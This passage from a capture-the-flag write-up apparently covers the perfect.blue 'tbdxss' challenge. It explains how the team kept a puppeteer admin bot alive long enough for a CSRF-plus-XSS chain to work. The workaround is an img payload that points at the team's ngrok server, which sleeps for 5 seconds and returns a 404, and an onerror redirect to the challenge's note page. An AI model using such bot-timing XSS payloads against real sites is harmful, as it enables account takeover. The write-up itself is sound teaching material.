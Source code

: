 ## What Happened?

By doing some reading about puppeteer we learned that our earlier assumption was wrong.

This code:
```
        const resp = await page.goto(url, {
            waitUntil: 'load',
            timeout: 20 * 1000,
        });
```

**actually** kills the browser as soon as the page is considered to be "loaded".

Remember that setTimeout() call that delays for 5 seconds?  Well, it turns out that the browswer considers itself "loaded" even when there are such timers pending. So, all of our script ran EXCEPT the all-important line hiding inside the setTimeout().

At first we tried to just get rid of the setTimeout() but, sure enough, that doesn't give the CSRF payload time to complete and we end up loading the original note rather than our XSS note.

## Inspiration

Nolan on our team had the key idea that would save the day here.

Rather than using setTimeout(), let's use this:

```
<img src="some-url-that-takes-5-seconds-and-then-returns-a-404" onerror="window.location.href = 'https://tbdxss.chal.perfect.blue/note'">
```

Since we have our own web server, let's craft an endpoint that sleeps for 5 seconds before returning a 404 response.

If we then use that with an `<img>` tag as shown above, then the onerror script will be delayed by 5 seconds.  As it turns out, the page is not considered to be "loaded" while a graphic like this is still pending and so it keep the puppeteer browser alive!

Here's what we added to `app.js` for this exotic endpoint we needed:

```
app.get('/delayThen404', function(req, res) {
    setTimeout(()=> {
            res.sendStatus(404);
            },
            5000)
});
```

Then, in our payload above, we took out the `setTimeout()` code entirely and added this under the `</script>`:

```
<img src='https://8709-68-51-145-201.ngrok.io/delayThen404' onerror="window.location.href='https://tbdxss.chal.perfect.blue/note'">
```

We tested this in our browser again first just to make sure it still works there.
